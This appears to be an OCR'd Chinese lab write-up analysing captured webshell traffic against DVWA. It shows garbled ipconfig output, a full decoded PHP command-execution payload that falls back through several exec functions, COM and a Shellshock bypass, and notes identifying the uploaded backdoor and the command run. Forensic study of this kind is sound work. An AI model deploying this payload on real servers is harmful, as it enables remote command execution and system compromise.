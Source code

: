 ```
   .......... DNS .... . . . . . . . : 
   ........ IPv6 ..... . . . . . . . : fe80::e088:d6d8:3b65:b824%11
   IPv4 .... . . . . . . . . . . . . : 192.168.0.106
   ........  . . . . . . . . . . . . : 255.255.255.0
   ......... . . . . . . . . . . . . : 192.168.0.1

.......... isatap.{7C8D0B6F-3165-4DBE-8DAB-74316CE3A173}:

   ........  . . . . . . . . . . . . : ..........
   .......... DNS .... . . . . . . . : 

.......... isatap.{6476345A-1F08-4275-BF67-63CCF91FC41B}:

   ........  . . . . . . . . . . . . : ..........
   .......... DNS .... . . . . . . . : 
[S]
C:\Users\mystical\Desktop\phpstudy\phpstudy_pro\WWW\DVWA\hackable\uploads
[E] 
71fb5b2d
```
- 通过url解码数据体部分可得
```
1=@ini_set("display_errors", "0");@set_time_limit(0);function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "f3a67"."c7bb61";echo @asenc($output);echo "71fb"."5b2d";}ob_start();try{$p=base64_decode(substr($_POST["lb479cecbced54"],2));$s=base64_decode(substr($_POST["bbe7f1c781cd75"],2));$envstr=@base64_decode(substr($_POST["mbb56c8feb82f1"],2));$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";if(substr($d,0,1)=="/"){@putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");}else{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}if(!empty($envstr)){$envarr=explode("|||asline|||", $envstr);foreach($envarr as $v) {if (!empty($v)) {@putenv(str_replace("|||askey|||", "=", $v));}}}$r="{$p} {$c}";function fe($f){$d=explode(",",@ini_get("disable_functions"));if(empty($d)){$d=array();}else{$d=array_map('trim',array_map('strtolower',$d));}return(function_exists($f)&&is_callable($f)&&!in_array($f,$d));};function runshellshock($d, $c) {if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {if (strstr(readlink("/bin/sh"), "bash") != FALSE) {$tmp = tempnam(sys_get_temp_dir(), 'as');putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");if (fe('error_log')) {error_log("a", 1);} else {mail("a@127.0.0.1", "", "", "-bv");}} else {return False;}$output = @file_get_contents($tmp);@unlink($tmp);if ($output != "") {print($output);return True;}}return False;};function runcmd($c){$ret=0;$d=dirname($_SERVER["SCRIPT_FILENAME"]);if(fe('system')){@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);print(join("
",$o));}elseif(fe('popen')){$fp=@popen($c,'r');while(!@feof($fp)){print(@fgets($fp,2048));}@pclose($fp);}elseif(fe('proc_open')){$p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);while(!@feof($io[1])){print(@fgets($io[1],2048));}while(!@feof($io[2])){print(@fgets($io[2],2048));}@fclose($io[1]);@fclose($io[2]);@proc_close($p);}elseif(fe('antsystem')){@antsystem($c);}elseif(runshellshock($d, $c)) {return $ret;}elseif(substr($d,0,1)!="/" && @class_exists("COM")){$w=new COM('WScript.shell');$e=$w->exec($c);$so=$e->StdOut();$ret.=$so->ReadAll();$se=$e->StdErr();$ret.=$se->ReadAll();print($ret);}else{$ret = 127;}return $ret;};$ret=@runcmd($r." 2>&1");print ($ret!=0)?"ret={$ret}":"";;}catch(Exception $e){echo "ERROR://".$e-getMessage();};asoutput();die();
```
- 通过解码后的数据体进行分析，上述是php代码编写，包括变量、控制结构（如 if 语句和循环）、函数和错误处理。
- 通过请求头信息，可以看到/DVWA/hackable/uploads/info5.php该后门文件的位置
- 通过一些关键字，可以明显看出调用了window系统的cmd，进行了命令执行
- 通过响应结果可以看出，是执行了ipconfig命令
